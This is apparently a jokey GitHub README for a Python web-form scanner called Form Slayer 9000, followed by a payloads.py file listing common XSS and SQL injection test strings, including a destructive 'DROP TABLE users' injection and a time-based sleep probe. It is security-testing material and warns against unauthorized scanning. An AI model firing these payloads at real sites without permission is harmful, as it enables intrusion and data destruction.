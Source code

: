 # Form Slayer 9000
*A Python-powered vulnerability scanner that interrogates web forms like a caffeine-charged detective.*  
**[XSS] [SQLi] [Logs] [Justice]**

---

## Meet Your Cyber Sleuth

**Form Slayer 9000** isn’t just a scanner. It’s an overly enthusiastic, trenchcoat-wearing, espresso-slurping digital detective that kicks down the doors of your web forms and asks the hard questions:

> “Are you vulnerable... punk?”

From sniffing out **XSS**, **SQL Injection**, and **leaky logs**, to documenting every move with the elegance of a noir thriller, Form Slayer 9000 is on a mission — and you're the captain of this chaos.

---

## Features

- **XSS Detection** – "Drop that `<script>`, and nobody gets hurt."
- **SQL Injection Tests** – Because `' OR '1'='1` never really went out of style.
- **Logging** – Meticulous notes, like a detective with a diary.
- **Interactive Terminal Prompts** – Because typing `--help` is too mainstream.
- **Witty One-Liners (Optional, but encouraged)** – It *will* talk back.

---

## Install Me, Baby

1. Make sure Python 3.7+ is installed.
2. Clone this caffeinated beast:

   ```bash
   git clone https://github.com/yourusername/form-slayer-9000.git
   cd form-slayer-9000
   ```

3. Install dependencies:

   ```bash
   pip install -r requirements.txt
   ```

---

## How To Use

```bash
python form_slayer.py --url https://your-target-url.com
```

**Optional Flags:**

- `--xss` – Only scan for XSS
- `--sqli` – Only scan for SQLi
- `--log` – Save investigation logs to file
- `--stealth-mode` – (Not really stealthy, but it sounds cool)

Example:

```bash
python form_slayer.py --url https://juice.shop --xss --log
```

---

## What It Says to the Forms

Think of it like:

- **Form Slayer**: "What happens if I give you `<script>alert('gotcha')</script>`?"
- **Form**: "Uhh… I’ll just render it I guess?"
- **Form Slayer**: *“Gotcha.”*

---

## Warning

- Do **not** run this on websites you don’t own or don’t have permission to test. Unless you like long walks in orange jumpsuits and explaining puns to a judge.

---

## Coming Soon

- CSRF testing (because even forms get trust issues)
- Dashboard for GUI-loving detectives
- A dark mode... for darker investigations

---

## Contribute

Wanna join the squad? Open an issue, submit a PR, or drop a meme in the discussions. If your code is clean and your humor is cleaner, you’re in.

---

## License

MIT – Because even rebels play by *some* rules.

---

## Final Words

> “Form Slayer 9000 doesn’t sleep.  
> It just loops through endpoints… waiting.”  

**Happy hunting. Stay ethical. And drink water.**

#Bonus idea! 
 
# payloads.py
"""
Payloads of Mayhem - Form Slayer 9000's Favorite One-Liners
These are not just strings — they're personality-loaded interrogations.
"""

xss_payloads = [
    "<script>alert('Slayed by Form Slayer 9000')</script>",
    "'><img src=x onerror=alert('XSS!')>",
    "<svg/onload=alert('XSS-press yourself')>",
    "javascript:alert('XSS is a crime, but here we are.')"
]

sqli_payloads = [
    "' OR '1'='1' -- ",
    "'; DROP TABLE users; --",
    "' OR sleep(5) --",
    "' UNION SELECT NULL, version(), NULL --",
    "\" OR \"\" = \""
]

def get_payloads():
    """Returns all the juicy payloads."""
    return {
        "xss": xss_payloads,
        "sqli": sqli_payloads
    }

if __name__ == "__main__":
    print("Form Slayer 9000 - Payload Arsenal")
    print("-" * 40)
    for category, payloads in get_payloads().items():
        print(f"\n{category.upper()} Payloads:")
        for p in payloads:
            print(f"  - {p}")
#How to Use in Your Tool:
In your scanner, you could do something like:
from payloads import get_payloads

payloads = get_payloads()

for p in payloads['xss']:
    # send this to the form, wait for chaos
    scan_form_with(p)


